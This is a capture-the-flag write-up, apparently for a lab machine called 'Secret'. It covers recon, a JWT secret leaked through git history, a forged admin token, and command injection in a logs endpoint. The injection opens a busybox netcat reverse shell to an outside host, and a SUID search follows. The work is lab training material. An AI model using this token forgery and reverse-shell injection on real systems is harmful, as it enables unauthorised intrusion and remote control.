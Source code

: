# Secret

![secret.png](images/secret.png)

# Recon

Using nmap to scan the services using a version with a script scan.

`nmap -sC -sV 10.10.11.120 -Pn`

![Untitled](images/Untitled.png)

## Web

### Directory Discovery

Gobuster to find directories for further exploitation.

`gobuster dir -u http://10.10.11.120:3000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

![Untitled](images/Untitled%201.png)

### API

API schema can be found at [http://10.10.11.120:3000/docs](http://10.10.11.120:3000/docs)

Register user

`curl '[http://10.10.11.120:3000/api/user/register](http://10.10.11.120:3000/api/user/register)' -X POST -d '{"[name":"test321","email":"test@test.com](mailto:name%22:%22test%22,%22email%22:%22test@test.com)","password":"test321"}' -H "Content-Type: application/json" -x [http://localhost:8080/](http://localhost:8080/)`

![Untitled](images/Untitled%202.png)

Login with a user we get the JWT token

`curl '[http://10.10.11.120:3000/api/user/login](http://10.10.11.120:3000/api/user/login)' -X POST -d '{"[email":"test1@test.com](mailto:email%22:%22test1@test.com)","password":"test321"}' -H "Content-Type:application/json" -x [http://localhost:8080/](http://localhost:8080/)`

![Untitled](images/Untitled%203.png)

Using the new header

`curl '[http://10.10.11.120:3000/api/priv](http://10.10.11.120:3000/api/priv)' -X GET -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NWU2ZTg2MWMxMTQ2ODA0NWRiM2QzMjAiLCJuYW1lIjoidGVzdDEyMyIsImVtYWlsIjoidGVzdEB0ZXN0LmNvbSIsImlhdCI6MTcwOTYzMTgwMH0.Wk-d3Nm5XomrlCzUrqP9R3Rohx1RFMJnD6k4AcG5gT8"`

![Untitled](images/Untitled%204.png)

Fuzz the API using `ffuf`

`ffuf -u [http://10.10.11.120:3000/api/FUZZ](http://10.10.11.120:3000/api/FUZZ) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fs 93 -t 10`

![Untitled](images/Untitled%205.png)

### Database

![Untitled](images/Untitled%206.png)

### Code analysis

Possible RCE with this `exec` function inside the file `/routes/private.js`

![Untitled](images/Untitled%207.png)

There is a directory called `.git` that can contain private information

![Untitled](images/Untitled%208.png)

Here we can see the commit so we can access

![Untitled](images/Untitled%209.png)

Accessing that commit using the ID and we found the secret for the JWT token

`git show 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78`

![Untitled](images/Untitled%2010.png)

`gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE`

### JWT token

Using the website we can paste there our JWT token and then put there the secret that we found

[https://jwt.io/](https://jwt.io/)

![Untitled](images/Untitled%2011.png)

Now modify the token as we can see on the docs the `_id`, `name` and `email` put the same values of the administrator user like this, don’t change the `iat` value

![Untitled](images/Untitled%2012.png)

To verify if we are admin user we can make a request to `/api/priv`

`curl '[http://10.10.11.120:3000/api/priv](http://10.10.11.120:3000/api/priv)' -X GET -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTE0NjU0ZDc3ZjlhNTRlMDBmMDU3NzciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNzA5NTkwNjQ3fQ.3uq7MTeR1JfiKxj0g_cRo3hO7437lQyA1LkmjZriLr4" | jq .`

![Untitled](images/Untitled%2013.png)

## FootHold

Now that we are admin we can try to exploit the `exec` function found earlier, make a request to `/api/logs?file=` and we get this response

![Untitled](images/Untitled%2014.png)

By making a `ls` command we can list the contents of the current directory 

![Untitled](images/Untitled%2015.png)

RCE using `busybox`

Open a `netcat` listener, i used port `5555` you can use other port

`nc -nvlp 5555`

`curl '[http://10.10.11.120:3000/api/logs?file=;busybox nc 10.10.14.51 5555 -e bash](http://10.10.11.120:3000/api/logs?file=;busybox%20nc%2010.10.14.51%205555%20-e%20bash)' -X GET -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTE0NjU0ZDc3ZjlhNTRlMDBmMDU3NzciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNzA5NTkwNjQ3fQ.3uq7MTeR1JfiKxj0g_cRo3hO7437lQyA1LkmjZriLr4"`

![Untitled](images/Untitled%2016.png)

## Privilege escalation

Upgrade shell

`python3 -c “import pty;pty.spawn(’/bin/bash’)”`

### SUID files

Find SUID files

`find / -type f -perm -4000 2>/dev/null`

![Untitled](images/Untitled%2017.png)

Run the count 

![Untitled](images/Untitled%2018.png)

Root flag

![Untitled](images/Untitled%2019.png)
